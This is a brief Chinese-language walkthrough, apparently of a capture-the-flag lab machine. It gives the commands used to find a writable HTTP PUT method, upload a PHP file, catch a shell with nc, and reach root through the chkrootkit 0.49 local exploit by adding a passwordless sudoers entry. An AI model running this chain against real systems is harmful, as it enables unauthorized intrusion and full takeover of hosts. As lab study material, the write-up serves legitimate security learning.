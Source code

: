 dirbuster扫描目录, nikto -h ,均未发现有效信息

测试选项时,发现可以put move:
curl -v -X OPTIONS http://your-ip/test

put php文件上去:
nmap -p 80 your-ip --script http-put --script-args http-put.url='/test/exploit.php',http.put.file='exploit.php'
若成功,会返回文件创建成功

nc 侦听回连端口:
nc -nvlp 443
成功获得一个低权限shell

尝试tty escape失败

uname -a 查看内核版本也不能溢出

查看cron.d脚本:
ls -l /etc/cron.daily
发现有chkrootkit

确定chkrootkit的版本:
dpkg -l | grep chkrootkit
发现是0.49版本

查找相关的exp:
searchsploit chkrootkit
找到一个对应的exp:  /usr/share/exploitdb/exploits/linux/local/33899.txt

在目标机执行命令:
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update
chmod 777 /tmp/update
run-parts /etc/cron.daily(输入任意密码)
sudo su
此时执行whoami,已变更身份为root


